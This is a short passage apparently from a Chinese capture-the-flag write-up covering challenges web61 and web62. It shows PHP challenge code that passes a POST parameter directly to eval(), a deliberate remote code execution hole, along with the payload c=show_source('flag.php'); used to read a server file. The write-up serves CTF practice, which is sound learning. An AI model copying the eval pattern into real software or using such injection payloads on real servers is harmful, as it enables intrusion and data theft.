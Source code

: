 pyload:c=show_source('flag.php');

### web61

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```

pyload:c=show_source('flag.php');

### web62

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```
